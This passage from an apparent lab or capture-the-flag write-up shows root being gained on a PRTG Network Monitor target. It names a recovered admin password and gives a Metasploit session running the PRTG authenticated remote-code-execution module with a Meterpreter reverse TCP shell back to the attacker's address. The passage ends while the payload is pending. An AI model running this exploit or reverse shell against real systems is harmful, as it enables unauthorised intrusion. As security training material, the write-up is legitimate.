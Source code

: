 ```bash
``` 
## Getting Root
Now that we are able to download the configuration we find the password is *PrTg@dmin2019*. So lets try login.

Worked!! Looks like the version running is 18.1.37.13946 and from here, https://www.rapid7.com/db/modules/exploit/windows/http/prtg_authenticated_rce/,  we can exploit this.

```bash
msf6 > use exploit/windows/http/prtg_authenticated_rce
msf6 exploit(windows/http/prtg_authenticated_rce) > show options 

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  prtgadmin        yes       The password for the specified username
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                            no        HTTP server virtual host
msf6 exploit(windows/http/prtg_authenticated_rce) > set RHOSTS 10.10.10.152
RHOSTS => 10.10.10.152
msf6 exploit(windows/http/prtg_authenticated_rce) > set AdMIN_PASSWORD PrTg@dmin2019
AdMIN_PASSWORD => PrTg@dmin2019
msf6 exploit(windows/http/prtg_authenticated_rce) > set LHOST 10.10.14.3
LHOST => 10.10.14.3
msf6 exploit(windows/http/prtg_authenticated_rce) > show options

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  PrTg@dmin2019    yes       The password for the specified username
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.152     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                            no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
msf6 exploit(windows/http/prtg_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
```